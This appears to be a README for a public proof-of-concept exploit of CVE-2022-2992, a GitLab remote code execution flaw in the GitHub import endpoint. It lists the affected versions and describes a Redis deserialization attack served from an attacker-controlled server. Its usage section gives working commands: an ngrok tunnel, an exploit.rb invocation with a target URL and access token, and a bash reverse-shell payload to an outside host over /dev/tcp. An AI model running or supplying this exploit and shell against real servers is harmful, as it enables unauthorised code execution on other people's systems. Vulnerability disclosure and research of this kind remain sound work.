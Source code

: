 # CVE-2022-2992: Remote Command Execution via Github import

## Information
**Description:** This allows an authenticated user to achieve remote code execution via the Import from GitHub API endpoint.  
**Versions Affected:** all versions from 11.10 prior to 15.1.6, 15.2 to 15.2.4, 15.3 to 15.3.2  
**Version Fixed:** 15.3.2  
**Researcher:** [vakzz](https://twitter.com/wcbowling)  
**Write-up Link:** Coming Soon  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2022-2992  

## Proof-of-Concept Exploit
### Description
An authenticated user can import a repository from Github into Gitlab. One can try to import from an attacker's controller server which replies with a Redis' serialization protocol object in the nested `default_branch` making the Gitlab to cache this object on redis and the redis to deserialize it and trigger execute the payload.

### Usage/Exploitation
One will need a [personal access token](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html#create-a-personal-access-token)

```bash
$ bundle install # install dependencies
$ ngrok http 127.0.0.1:4567  # start ngrok tunnel
$ export NGROK_URL=https://68b9-83-173-213-121.eu.ngrok.io # use the url from ngrok
$ ruby exploit.rb http://target.gitlab.com w4dg6wVj7j7xlJgpGLEYdwFe 'bash -c "sh -i >& /dev/tcp/172.23.0.1/1337 0>&1"' # that is a example, use your own payload
```
### Example
![Remote Command Execution via Github import](images/cve-2022-2992.gif)
